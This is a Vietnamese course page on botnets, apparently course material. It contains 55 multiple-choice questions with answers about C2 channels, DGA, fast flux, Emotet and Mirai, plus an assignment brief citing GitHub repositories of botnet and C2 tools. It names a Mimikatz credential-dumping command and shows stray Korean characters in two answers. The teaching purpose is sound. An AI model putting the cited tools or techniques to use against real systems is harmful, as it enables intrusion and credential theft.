- Đề xuất biện pháp **phát hiện & giảm thiểu** (signature/heuristic/anomaly).

**Repository tham khảo:**
- https://github.com/0x1CA3/Net
- https://github.com/wodxgod/PYbot
- https://github.com/TryZeroOne/Contagio
- https://github.com/Markus-Go/bonesi
- https://github.com/CirqueiraDev/KryptonC2

!!! warning "Lưu ý pháp lý"
    Tất cả hoạt động phải tuân thủ quy định an toàn và pháp lý. Tuyệt đối không triển khai mã độc trên mạng thực.

---

---

# Câu Hỏi Trắc Nghiệm

**Câu 1.** Bot độc hại (malicious bot) khác bot lành tính (benign bot) ở điểm nào chính yếu?

- A. Bot độc hại viết bằng C++, bot lành tính viết bằng Python
- B. Bot độc hại chạy tự động trên máy bị xâm nhập mà không có sự đồng ý của chủ sở hữu
- C. Bot độc hại luôn tấn công DDoS
- D. Bot lành tính không thể kết nối Internet

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Bot độc hại chạy tự động trên máy zombie mà không có sự đồng ý của chủ máy, phục vụ mục đích của botmaster. Bot lành tính (như Googlebot) cũng tự động nhưng hoạt động hợp pháp với sự cho phép.

---

**Câu 2.** "Bot herder" hay "botmaster" là thuật ngữ chỉ ai?

- A. Nhà cung cấp dịch vụ Internet
- B. Kẻ tấn công kiểm soát toàn bộ botnet
- C. Người dùng máy tính bị nhiễm
- D. Nhà nghiên cứu bảo mật theo dõi botnet

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Bot herder (hay botmaster) là kẻ tấn công điều hành và kiểm soát toàn bộ mạng botnet thông qua kênh C&C.

---

**Câu 3.** Botnet KHÔNG được sử dụng để làm gì trong số các hoạt động sau?

- A. Gửi spam
- B. Tấn công DDoS
- C. Phát triển phần mềm diệt virus
- D. Cryptojacking

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Botnet được dùng cho các hoạt động độc hại: DDoS, spam, đánh cắp dữ liệu, click fraud, cryptojacking, phishing, extortion. Phát triển phần mềm diệt virus là hoạt động hợp pháp, không liên quan đến botnet.

---

**Câu 4.** Chiến dịch DDoS của Michael Calce (Mafiaboy) năm 2000 nhắm vào những mục tiêu nào?

- A. Ngân hàng và tổ chức tài chính
- B. Yahoo, eBay, Amazon, Dell, CNN và các website thương mại khác
- C. Hệ thống quân sự Mỹ
- D. Cơ sở hạ tầng DNS toàn cầu

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Mafiaboy tấn công DDoS Yahoo, ETrade, Dell, eBay, Amazon và các site khác trong nhiều ngày liên tiếp. Đây là vụ botnet DDoS đầu tiên gây chú ý rộng rãi.

---

**Câu 5.** Theo Spamhaus (Jul–Dec 2024), quốc gia nào có số lượng botnet C&C nhiều nhất?

- A. Mỹ
- B. Nga
- C. Trung Quốc
- D. Hà Lan

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Trung Quốc dẫn đầu với 3.535 C&C (Jul–Dec 2024), tăng 25% so với nửa đầu năm. Mỹ đứng thứ 2 với 2.286.

---

**Câu 6.** Malware nào đứng đầu danh sách liên quan botnet C&C theo Spamhaus (Jul–Dec 2024)?

- A. Mirai
- B. Emotet
- C. Cobalt Strike
- D. Remcos

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Cobalt Strike dẫn đầu với 3.737 C&C (tăng 12% so với nửa đầu 2024). Dù là công cụ pentest hợp pháp, Cobalt Strike thường xuyên bị악用 cho mục đích độc hại.

---

**Câu 7.** Mirai botnet hoạt động bằng cách nào để lây nhiễm thiết bị IoT?

- A. Khai thác lỗ hổng zero-day trong firmware
- B. Quét IPv4 tìm Telnet/SSH và thử mật khẩu mặc định
- C. Phát tán qua email phishing
- D. Dùng USB infected để lây lan

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Mirai quét không gian địa chỉ IPv4, tìm thiết bị chạy Telnet/SSH, rồi thử đăng nhập bằng từ điển mật khẩu mặc định của IoT (admin/admin, root/root...). Đây là điểm yếu cốt lõi của nhiều thiết bị IoT.

---

**Câu 8.** Sau khi Mirai bot đăng nhập thành công vào thiết bị IoT, bước tiếp theo là gì?

- A. Ngay lập tức tấn công DDoS mục tiêu
- B. Xóa log hệ thống
- C. Gửi IP và thông tin đăng nhập về Report Server, loader nhiễm thiết bị
- D. Tự mã hóa và đòi tiền chuộc

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Bot gửi IP nạn nhân và credentials về Report Server. Report Server kích hoạt loader bất đồng bộ để nhiễm thiết bị. Sau đó bot mới tiếp tục quét nạn nhân mới và nhận lệnh DDoS từ C2.

---

**Câu 9.** Mục đích chính của kênh C2 (Command & Control) trong botnet là gì?

- A. Mã hóa dữ liệu của nạn nhân
- B. Cho phép botmaster gửi lệnh, nhận báo cáo và duy trì phối hợp tấn công
- C. Phát tán email spam trực tiếp
- D. Lây nhiễm sang các thiết bị mới

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    C2 là trung tâm điều hành của botnet: cho phép botmaster gửi lệnh, bot báo cáo trạng thái, exfiltrate dữ liệu, và nhận payload/update mới.

---

**Câu 10.** Điểm yếu chính của kiến trúc C2 tập trung (Centralized C2) là gì?

- A. Tốc độ truyền lệnh chậm
- B. Khó triển khai về mặt kỹ thuật
- C. Dễ bị takedown vì có single point of failure
- D. Không thể kiểm soát nhiều bot cùng lúc

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Kiến trúc tập trung có điểm thất bại duy nhất (single point of failure): nếu server C2 bị hạ hoặc domain bị chặn, toàn bộ botnet có thể mất liên lạc với botmaster.

---

**Câu 11.** IRC C2 sử dụng port nào theo mặc định, khiến nó dễ bị phát hiện?

- A. Port 80
- B. Port 443
- C. Port 6667
- D. Port 8080

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    IRC sử dụng port 6667 theo mặc định. Lưu lượng IRC plaintext trên port này dễ bị network monitoring phát hiện và chặn, đây là một nhược điểm lớn của IRC C2.

---

**Câu 12.** Tại sao HTTP/HTTPS C2 được coi là khó phát hiện hơn IRC C2?

- A. HTTPS mã hóa mạnh hơn IRC
- B. Lưu lượng hòa lẫn vào traffic web bình thường, dùng port chuẩn (80/443)
- C. HTTP không để lại log
- D. Botmaster không cần đăng nhập để gửi lệnh

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    HTTP/HTTPS C2 dùng port 80/443 – những port luôn được phép qua firewall và NAT. Lưu lượng C2 trông giống traffic web thông thường, rất khó phân biệt với hoạt động hợp lệ.

---

**Câu 13.** P2P C2 có ưu điểm gì so với Centralized C2?

- A. Dễ triển khai hơn
- B. Không có single point of failure, khó truy vết botmaster, dự phòng cao
- C. Tốc độ truyền lệnh nhanh hơn
- D. Không cần mã hóa

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    P2P C2 không có điểm thất bại duy nhất, botmaster khó bị truy vết, lệnh vẫn lan truyền dù một phần botnet bị phá. Đây là lý do P2P C2 được dùng trong các botnet tinh vi như Storm và Gameover Zeus.

---

**Câu 14.** Domain Generation Algorithm (DGA) hoạt động dựa trên nguyên tắc nào?

- A. Mua trước hàng nghìn domain và lưu vào botnet
- B. Bot và C2 server dùng cùng thuật toán + seed để sinh danh sách domain ngẫu nhiên hàng ngày
- C. Đổi domain mỗi khi bị phát hiện bằng cách hack registrar
- D. Dùng Tor network để ẩn địa chỉ C2

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Cả bot và C2 server đều tính độc lập nhưng cho ra cùng danh sách domain (vì dùng cùng thuật toán và seed như ngày hiện tại). Attacker chỉ cần đăng ký một vài domain trong danh sách đó.

---

**Câu 15.** Conficker sử dụng DGA với tần suất như thế nào?

- A. 50 domain mỗi giờ
- B. 250 domain mỗi ngày
- C. 1000 domain mỗi tuần
- D. 10 domain mỗi phút

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Conficker sinh khoảng 250 domain ngẫu nhiên mỗi ngày dựa trên date seed. Điều này khiến việc blacklist toàn bộ domain gần như không khả thi.

---

**Câu 16.** Fast Flux DNS khác DNS thông thường ở điểm nào?

- A. Dùng giao thức mã hóa khác
- B. Thay đổi IP đứng sau domain với TTL rất ngắn (vài giây/phút)
- C. Chỉ hoạt động trên IPv6
- D. Không dùng A records

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Fast Flux cập nhật liên tục DNS A records với TTL cực ngắn, xoay vòng nhiều IP (thường là máy bị xâm nhập). Khi defender block một IP, botnet tự động chuyển sang IP khác.

---

**Câu 17.** Double-Flux khác Single-Flux như thế nào?

- A. Double-Flux dùng hai domain thay vì một
- B. Double-Flux xoay vòng cả A records lẫn NS records
- C. Double-Flux mã hóa lưu lượng DNS
- D. Double-Flux chỉ dùng IPv6

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Single-Flux chỉ xoay A records (địa chỉ IP). Double-Flux xoay cả A records lẫn NS records (Name Server), khiến việc truy vết nguồn gốc và takedown khó hơn nhiều.

---

**Câu 18.** DNS Tunneling là kỹ thuật gì trong covert channel?

- A. Tạo VPN qua DNS server
- B. Mã hóa dữ liệu vào tên subdomain và trao đổi qua DNS request/response
- C. Chặn DNS request của nạn nhân
- D. Giả mạo DNS server để redirect traffic

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    DNS Tunneling nhúng dữ liệu (lệnh C2 hoặc dữ liệu exfiltrate) vào tên subdomain của DNS query. Vì DNS thường được phép qua firewall, đây là kỹ thuật covert channel hiệu quả.

---

**Câu 19.** Nhóm APT34 sử dụng kỹ thuật covert channel nào trong các chiến dịch gián điệp?

- A. Social Media C2
- B. Cloud Storage C2
- C. DNS Tunneling
- D. IRC Covert Channel

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    APT34 sử dụng DNS tunneling để thực hiện C2 trong các chiến dịch nhắm vào ngành dầu khí, giúp lưu lượng C2 trông như DNS query bình thường.

---

**Câu 20.** "Drive-by download" xảy ra như thế nào?

- A. Nạn nhân cố tình tải phần mềm crack
- B. Nhiễm mã độc tự động khi truy cập website bị xâm nhập, không cần tương tác
- C. Mã độc được gửi qua USB
- D. Tải phần mềm từ torrent

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Drive-by download nhiễm mã độc khi người dùng chỉ đơn giản truy cập một website bị xâm nhập hoặc độc hại – không cần click, không cần tải gì. Exploit kit tự động khai thác lỗ hổng trình duyệt.

---

**Câu 21.** Theo thống kê, khoảng bao nhiêu phần trăm kết quả tìm kiếm Google chứa ít nhất một URL độc hại?

- A. 0,1%
- B. 1,3%
- C. 5%
- D. 10%

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Nghiên cứu cho thấy khoảng 1,3% query tìm kiếm đến Google trả về ít nhất một URL được gán nhãn độc hại trong kết quả.

---

**Câu 22.** "Click fraud" trong bối cảnh botnet hoạt động như thế nào?

- A. Hacker click vào link phishing
- B. Bot tự động click vào quảng cáo PPC để trục lợi hoặc gây thiệt hại cho đối thủ
- C. Người dùng bị lừa click vào malware
- D. Tạo tài khoản quảng cáo giả

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Botnet thực hiện click fraud bằng cách tự động click vào quảng cáo PPC. Động cơ: (1) Đốt tiền quảng cáo của đối thủ cạnh tranh; (2) Publisher gian lận kiếm tiền từ mạng quảng cáo.

---

**Câu 23.** AgoBot (Gaobot/Phatbot) có đặc điểm nổi bật nào về kỹ thuật?

- A. Đơn giản nhất trong 4 botnet được phân tích
- B. Phức tạp nhất, ~20.000 dòng C/C++, modular, có anti-disassembly
- C. Chỉ có 100 biến thể
- D. Không có khả năng DDoS

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    AgoBot là phức tạp nhất với ~20.000 dòng C/C++, kiến trúc modular, tuân thủ nguyên tắc software engineering, có cơ chế chống phân tích, hơn 580 biến thể.

---

**Câu 24.** SDBot được phân phối dưới giấy phép nào, và điều này có ý nghĩa gì?

- A. Proprietary license – chỉ tội phạm mới có thể dùng
- B. GPL – mã nguồn công khai, dễ mở rộng, trách nhiệm bị phân tán qua các patch
- C. MIT license – không giới hạn sử dụng
- D. Freeware – miễn phí nhưng không mở mã nguồn

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    SDBot được công bố dưới GPL. Điều này có nghĩa mã nguồn công khai, ai cũng có thể fork và thêm tính năng độc hại qua patches, phân tán trách nhiệm pháp lý cho từng người tạo biến thể.

---

**Câu 25.** Điểm khác biệt chính trong cơ chế delivery mã độc của AgoBot so với SDBot/SpyBot/GT Bot là gì?

- A. AgoBot dùng email, còn các bot kia dùng web
- B. AgoBot tách biệt exploit và payload: exploit mở shell, payload được deliver qua HTTP/FTP
- C. AgoBot không dùng mã hóa
- D. AgoBot chỉ lây qua USB

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    SDBot, SpyBot, GT Bot đóng gói exploit và payload vào một script. AgoBot tách biệt: exploit lỗ hổng và mở shell, sau đó deliver payload mã hóa qua HTTP hoặc FTP riêng biệt. Điều này cho phép tái sử dụng encoder và đa dạng hóa bit stream.

---

**Câu 26.** Trong phân tích botnet, "quét ngang" (horizontal scan) là gì?

- A. Quét nhiều port trên một địa chỉ IP
- B. Quét một port cố định trên nhiều địa chỉ IP khác nhau
- C. Quét ngẫu nhiên cả IP lẫn port
- D. Quét chỉ trong mạng nội bộ

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Horizontal scan = một port trên nhiều địa chỉ IP (ví dụ: quét port 445/SMB trên toàn bộ subnet). Vertical scan = nhiều port trên một địa chỉ IP (giống port scan thông thường).

---

**Câu 27.** Spamhaus DNSBL hoạt động như thế nào để chặn spam?

- A. Mã hóa tất cả email gửi đi
- B. Mail server kiểm tra IP sender với Spamhaus blacklist; nếu có mặt thì reject/tag email
- C. Chặn toàn bộ lưu lượng từ các quốc gia có nhiều botnet
- D. Phân tích nội dung email bằng AI

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Spamhaus DNSBL cho phép mail server tra cứu IP của sender. Nếu IP nằm trong blacklist (đã được xác định là nguồn spam/botnet), mail server có thể reject, tag, hoặc xử lý thêm qua spam filter.

---

**Câu 28.** Spatial Heuristic trong phát hiện botnet reconnaissance hoạt động dựa trên nguyên tắc gì?

- A. Phân tích thời điểm gửi email
- B. Mail server hợp lệ vừa query vừa là đối tượng của query; bot chỉ query (out-degree cao, in-degree thấp)
- C. So sánh kích thước file email
- D. Phân tích địa lý của IP

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Mail server hợp lệ gửi email đến người khác (= bị lookup) và cũng nhận email (= lookup người khác). Bot trinh sát chỉ query nhiều IP khác mà không bị ai query → out-degree/in-degree ratio cao.

---

**Câu 29.** APT (Advanced Persistent Threat) thường được liên kết với loại tác nhân nào?

- A. Hacker cá nhân tìm kiếm lợi nhuận nhanh
- B. Script kiddies
- C. Nhà nước hoặc nhóm được nhà nước bảo trợ
- D. Công ty bảo mật cạnh tranh không lành mạnh

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    APT thường là tác nhân nhà nước hoặc được nhà nước bảo trợ, có nguồn lực lớn, mục tiêu chiến lược dài hạn (gián điệp, phá hoại hạ tầng), và khả năng ẩn mình trong mạng nạn nhân rất lâu.

---

**Câu 30.** Emotet ban đầu hoạt động như loại malware nào?

- A. Ransomware
- B. Banking Trojan
- C. Rootkit
- D. DDoS bot

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Emotet ban đầu là banking Trojan (2014), phái sinh từ Feodo/Bugat. Nó dùng network sniffing để đánh cắp thông tin ngân hàng. Sau đó phát triển thành nền tảng malware đa năng.

---

**Câu 31.** Emotet được Europol đánh giá như thế nào?

- A. "Malware phức tạp nhất thế giới"
- B. "Malware nguy hiểm nhất thế giới"
- C. "Botnet lớn nhất lịch sử"
- D. "Ransomware tinh vi nhất"

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Europol gọi Emotet là "world's most dangerous malware". Checkpoint ước tính 1/5 tổ chức toàn cầu bị ảnh hưởng.

---

**Câu 32.** Nhóm vận hành Emotet được biết đến với tên gọi nào?

- A. Lazarus Group
- B. APT28
- C. MUMMY SPIDER
- D. FIN7

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Emotet được vận hành bởi MUMMY SPIDER (theo phân loại của CrowdStrike), với nhịp hoạt động 2–3 tháng tấn công và 3–12 tháng offline để cập nhật khả năng.

---

**Câu 33.** Emotet cung cấp hạ tầng theo mô hình kinh doanh nào?

- A. Ransomware-as-a-Service (RaaS)
- B. Infrastructure-as-a-Service (IaaS) cho tội phạm mạng
- C. Malware-as-a-Service (MaaS) chỉ cho cá nhân
- D. DDoS-as-a-Service

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Emotet hoạt động như IaaS: các nhóm tội phạm khác trả tiền để dùng botnet Emotet làm hạ tầng phát tán malware của họ (TrickBot, IcedID, Ryuk...).

---

**Câu 34.** Emotet sử dụng cơ chế persistence nào khi chạy với quyền admin?

- A. Chỉ dùng Registry Run Key
- B. Tạo Windows Service với Startup type Automatic
- C. Thay thế file hệ thống
- D. Cài rootkit

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Khi có quyền admin, Emotet tạo Windows Service với Startup type = Automatic. Khi không có admin, Emotet dùng Registry Run Key hoặc Startup folder.

---

**Câu 35.** Emotet dùng công cụ nào để leo thang đặc quyền thông qua đánh cắp NTLM hash?

- A. Metasploit
- B. PowerSploit
- C. Mimikatz
- D. BloodHound

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Emotet sử dụng Mimikatz (qua lệnh sekurlsa::logonpasswords) để dump NTLM hash từ memory, sau đó dùng hash đó để đăng nhập vào các hệ thống khác (pass-the-hash).

---

**Câu 36.** Emotet di chuyển ngang trong mạng bằng giao thức nào?

- A. RDP (Remote Desktop Protocol)
- B. SMB (Server Message Block)
- C. SSH (Secure Shell)
- D. WinRM (Windows Remote Management)

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Emotet dùng SMB và WNetAddConnection2W API để kết nối đến share IPC$ trên máy khác trong mạng, thử lần lượt các username/password đã thu thập được.

---

**Câu 37.** Emotet đã bị takedown vào thời điểm nào và bởi ai?

- A. 6/2020, FBI đơn độc
- B. 1/2021, phối hợp của Europol và 8 quốc gia
- C. 3/2022, Interpol
- D. 12/2019, Microsoft và FBI

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Tháng 1/2021, Europol phối hợp cơ quan thực thi pháp luật của 8 quốc gia (Hà Lan, Đức, Pháp, Lithuania, Canada, Mỹ, Anh, Ukraine) thực hiện chiến dịch takedown Emotet. Ngày 25/4/2021, họ push update gỡ Emotet khỏi tất cả máy bị nhiễm.

---

**Câu 38.** Cơ quan thực thi pháp luật đã gỡ Emotet khỏi máy bị nhiễm bằng cách nào?

- A. Gửi email đến từng nạn nhân hướng dẫn gỡ cài đặt
- B. Tắt toàn bộ DNS server liên quan
- C. Kiểm soát kênh update của Emotet và push update gỡ cài đặt
- D. Hack ngược lại từng bot

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Sau khi chiếm quyền kiểm soát hạ tầng Emotet, law enforcement đã sử dụng chính cơ chế update hợp lệ của Emotet để phân phối module EmotetLoader.dll mới – module này gỡ cài đặt Emotet.

---

**Câu 39.** Trong protobuf message của Emotet, executeFlag = 2 có nghĩa là gì?

- A. Load binary vào memory
- B. Drop vào C:\ProgramData và thực thi bình thường
- C. Drop và thực thi với token của user có đặc quyền cao hơn (privilege escalation)
- D. Xóa file sau khi thực thi

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    ExecuteFlag = 2 giống type 1 (drop và thực thi) nhưng duplicate user token – tức là chạy với quyền của user có đặc quyền cao hơn, thực hiện privilege escalation.

---

**Câu 40.** Emotet dùng công cụ WebBrowserPassView để làm gì?

- A. Theo dõi lịch sử duyệt web
- B. Lấy password lưu trong các trình duyệt (Chrome, Firefox, IE, Opera...)
- C. Chặn kết nối web của nạn nhân
- D. Inject code vào trình duyệt

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    WebBrowserPassView là công cụ miễn phí có thể tiết lộ password được lưu trong IE, Firefox, Chrome, Safari, Opera và các trình duyệt khác. Emotet lạm dụng công cụ này để credential access.

---

**Câu 41.** Microsoft đã thực hiện thay đổi nào năm 2023 buộc Emotet phải thay đổi chiến thuật?

- A. Vô hiệu hóa PowerShell theo mặc định
- B. Vô hiệu hóa macro từ Internet theo mặc định
- C. Bắt buộc dùng Windows Defender
- D. Chặn kết nối SMB từ ngoài Internet

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Microsoft vô hiệu hóa macro VBA từ Internet theo mặc định (2023). Emotet phụ thuộc nhiều vào macro Word/Excel để thực thi, buộc nhóm MUMMY SPIDER phải chuyển sang kỹ thuật khác.

---

**Câu 42.** Trong chuỗi tấn công Ryuk, Emotet đóng vai trò gì?

- A. Thực thi ransomware trực tiếp
- B. Cung cấp initial access, sau đó để TrickBot và Cobalt Strike dọn đường cho Ryuk
- C. Mã hóa file của nạn nhân
- D. Exfiltrate dữ liệu trước khi mã hóa

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Chuỗi điển hình: Emotet (initial access) → TrickBot (lateral movement, credential theft) → Cobalt Strike (command and control, reconnaissance) → Ryuk (ransomware). Emotet là "cửa vào" cho toàn bộ chuỗi.

---

**Câu 43.** Morris Worm (1988) có ý nghĩa lịch sử gì trong bối cảnh botnet?

- A. Là botnet đầu tiên thực hiện DDoS thương mại
- B. Là một trong những malware tự lan truyền đầu tiên, nhiễm ~10% Internet thời đó
- C. Là ransomware đầu tiên
- D. Là malware đầu tiên dùng IRC C2

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Morris Worm (1988) nhiễm ~6.000 máy tính (khoảng 10% Internet thời đó), thiệt hại ~$10 triệu. Đây là một trong những malware tự lan truyền đầu tiên, đặt nền móng cho khái niệm worm hiện đại.

---

**Câu 44.** WannaCry sử dụng kỹ thuật phát tán nào?

- A. Email phishing với attachment
- B. Khai thác lỗ hổng SMB MS17-010 (EternalBlue)
- C. Brute-force RDP
- D. Drive-by download

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    WannaCry lây lan bằng cách khai thác lỗ hổng SMB MS17-010 (EternalBlue – công cụ của NSA bị rò rỉ), tự động lây sang các máy Windows chưa vá lỗi trong cùng mạng và qua Internet.

---

**Câu 45.** "Cryptojacking" là hoạt động độc hại nào liên quan đến botnet?

- A. Đánh cắp ví tiền điện tử của nạn nhân
- B. Dùng CPU/GPU của máy bị nhiễm để đào tiền điện tử mà không có sự đồng ý
- C. Mã hóa file và đòi tiền chuộc bằng cryptocurrency
- D. Tấn công các sàn giao dịch tiền điện tử

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Cryptojacking sử dụng tài nguyên tính toán (CPU/GPU) của thiết bị bị nhiễm để đào tiền điện tử cho botmaster, làm chậm máy nạn nhân và tốn điện mà nạn nhân không hay biết.

---

**Câu 46.** Spamhaus xác định được bao nhiêu botnet C&C trong giai đoạn Jul–Dec 2024?

- A. 5.000
- B. 13.720
- C. 20.000
- D. 50.000

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Spamhaus xác định 13.720 botnet C&C trong Jul–Dec 2024, giảm 4% so với 14.248 trong Jan–Jun 2024. Trung bình 2.287 C&C/tháng.

---

**Câu 47.** Kỹ thuật nào trong phát triển Honeynet giúp thu thập thông tin về botnet?

- A. Chạy Windows đã được vá đầy đủ để xem bot phản ứng thế nào
- B. Chạy Windows chưa được vá, thường bị nhiễm trong vòng 10 phút
- C. Giả mạo là IRC server để thu hút bot
- D. Deploy firewall mạnh để phân tích lưu lượng bị chặn

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Honeynets thường chạy các phiên bản Windows chưa được vá lỗi. Các máy này thường bị nhiễm trong vòng 10 phút, cho phép thu thập thông tin về cách thức lây nhiễm và hành vi của botnet.

---

**Câu 48.** Storm Worm Botnet (2007) đóng góp gì quan trọng vào lịch sử kỹ thuật C2?

- A. Là botnet đầu tiên dùng IRC
- B. Là một trong những botnet đầu tiên dùng Fast Flux DNS
- C. Là botnet đầu tiên dùng ransomware
- D. Phát minh ra DGA

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Storm Worm (2007) là một trong những botnet đầu tiên sử dụng Fast Flux DNS để ẩn hạ tầng C2, đặt tiền lệ cho nhiều botnet phức tạp về sau. Storm cũng dùng P2P C2.

---

**Câu 49.** Trong phân loại malware liên quan botnet C&C (Spamhaus Jul–Dec 2024), loại chiếm tỷ lệ cao nhất là gì?

- A. Ransomware
- B. DDoS Bot
- C. Pentest Framework (Cobalt Strike, Sliver, Havoc...)
- D. Android Backdoor

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Theo Spamhaus Jul–Dec 2024, Pentest Framework chiếm ~36,51% (giảm từ ~43,73% nửa đầu 2024). RAT (Remote Access Trojan) đứng thứ hai. Điều đáng chú ý là các "công cụ pentest" như Cobalt Strike bị악用 rộng rãi.

---

**Câu 50.** Tại sao thiết bị IoT là mục tiêu hấp dẫn cho botnet như Mirai?

- A. Thiết bị IoT có CPU mạnh hơn máy tính thông thường
- B. Thiết bị IoT thường có mật khẩu mặc định yếu, ít được cập nhật, và số lượng rất lớn
- C. Thiết bị IoT có kết nối mạng nhanh hơn
- D. Thiết bị IoT không có hệ điều hành nên dễ kiểm soát

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    IoT là mục tiêu lý tưởng vì: (1) Hàng triệu thiết bị với mật khẩu mặc định không đổi (admin/admin, root/1234...); (2) Người dùng ít khi update firmware; (3) Ít hoặc không có phần mềm bảo mật; (4) Luôn bật 24/7 có kết nối Internet.

---

**Câu 51.** Gameover Zeus (2011–2014) nổi tiếng về kỹ thuật C2 nào?

- A. IRC C2 trên port 6667
- B. HTTP C2 đơn giản
- C. P2P C2 kết hợp double-flux Fast Flux
- D. DGA đơn thuần

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Gameover Zeus dùng kiến trúc P2P C2 (không có single point of failure) kết hợp với double-flux Fast Flux DNS, khiến nó cực kỳ khó bị takedown. Đây là lý do FBI phải phối hợp quốc tế để dẹp Gameover Zeus.

---

**Câu 52.** Emotet sử dụng module nào để thu thập danh sách liên lạc email từ Outlook?

- A. BROWSER PASSVIEW
- B. EMAIL CONTACTS EXTRACTOR (dùng Outlook Messaging API)
- C. MAIL SPAMBOT
- D. CREDENTIAL ENUMERATOR

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Emotet có module Email Contacts Extractor sử dụng Outlook Messaging API (MAPI) để trích xuất danh bạ email từ Outlook, phục vụ cho việc phát tán spam/phishing đến các địa chỉ liên lạc của nạn nhân.

---

**Câu 53.** Định nghĩa đúng về "Distributed Reconnaissance" trong ngữ cảnh botnet và DNSBL là gì?

- A. Botmaster tự query DNSBL từ nhiều máy chủ
- B. Mỗi bot tự query chính IP của mình
- C. Các bot thực hiện query DNSBL cho IP của các bot khác trong mạng
- D. Một máy chuyên dụng query toàn bộ danh sách bot

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Distributed Reconnaissance: bot A query DNSBL cho IP của bot B, bot B query cho IP của bot C... Kỹ thuật này phức tạp nhất, khó phát hiện nhất vì lưu lượng query được phân tán ra nhiều nguồn.

---

**Câu 54.** SpyBot có điểm gì đặc biệt so với các bot khác trong case study?

- A. Là bot đầu tiên dùng HTTP C2
- B. Chia sẻ command and control engine với SDBot, có keylogger tích hợp
- C. Có khả năng polymorphism cao nhất
- D. Phát triển bởi nhà nước

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    SpyBot chia sẻ phần lớn engine C&C với SDBot (~3.000 dòng C), nhưng bổ sung thêm các tính năng như keylogger (startkeylogger/stopkeylogger), file manipulation, process control, và NetBIOS/KaZaa exploits.

---

**Câu 55.** Kết hợp DGA + Fast Flux (như Necurs) tạo ra thách thức gì cho defender?

- A. Làm tăng băng thông cần thiết cho tấn công
- B. Domain C2 liên tục thay đổi (DGA) và IP đứng sau cũng thay đổi liên tục (Fast Flux), gần như không thể block
- C. Mã hóa toàn bộ lưu lượng C2
- D. Ẩn bot khỏi bảng ARP

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    DGA làm domain C2 thay đổi mỗi ngày (không thể blacklist domain cố định). Fast Flux làm IP đứng sau mỗi domain cũng thay đổi liên tục. Kết hợp hai kỹ thuật này tạo ra C2 gần như bất khả xâm phạm với các biện pháp blocking truyền thống.
